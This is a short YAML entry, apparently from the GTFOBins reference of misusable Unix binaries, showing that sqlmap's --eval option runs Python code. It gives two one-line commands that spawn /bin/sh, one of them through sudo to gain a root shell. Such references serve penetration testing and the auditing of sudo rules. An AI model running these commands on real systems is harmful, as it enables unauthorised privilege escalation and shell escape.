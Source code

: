 ```yaml
---
description: This allows to execute [`python`](/gtfobins/python/) code, other functions may apply.
functions:
  shell:
    - code: sqlmap -u 127.0.0.1 --eval="import os; os.system('/bin/sh')"
  sudo:
    - code: sudo sqlmap -u 127.0.0.1 --eval="import os; os.system('/bin/sh')"
---
```


